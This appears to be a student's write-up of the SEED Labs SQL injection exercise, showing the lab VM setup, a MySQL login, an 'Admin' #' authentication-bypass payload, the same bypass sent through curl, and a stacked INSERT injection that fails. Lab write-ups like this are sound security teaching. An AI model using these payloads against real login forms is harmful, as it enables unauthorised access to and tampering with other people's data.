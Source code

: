 ```yaml
---
title: SQL Injection Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `/etc/hosts` on the attacker:

```
10.0.2.4       www.SeedLabSQLInjection.com
```

# Task 1

Log in MYSQL:

```
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
```

Use such a SQL query:

```sql
select * from credential where Name = 'Alice';
```

![](./alice_profile.png)

# Task 2

## Task 2.1

- **USERNAME**: `"Admin' #"`
- **PASSWORD**: `"xyz"` whatever you like, it doesn't matter.

It will result in a SQL query as:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='xyz'
```

Then statements after `#` will be regarded as comments. So we can log in as `Admin`.

![](./full_records.png)

## Task 2.2

```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```

It will return a bunch of `html` code. when exporting outputs to file by `> temp.html` and open it, it looks like:

![](./html_look.png)

It contains all information we need but lacks the layout controls by a specified `CSS` file.

## Task 2.3

We need to inject such a statement to append a row to current database:

```sql
INSERT INTO credential (name, eid, password, salary, ssn) VALUES ('YJSNPI','114514','396396',17074,'1919810');
```

So construct:

- **USERNAME**: `"a' OR 1=1; INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514') #"`
- **PASSWORD**: `""` (remain blank)

It fails and alerts with a syntax error:

![](./fail.png)

Because in PHP's `mysqli` extension, which invokes `mysqli::query` API to handle SQL statement, it doesn't support multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.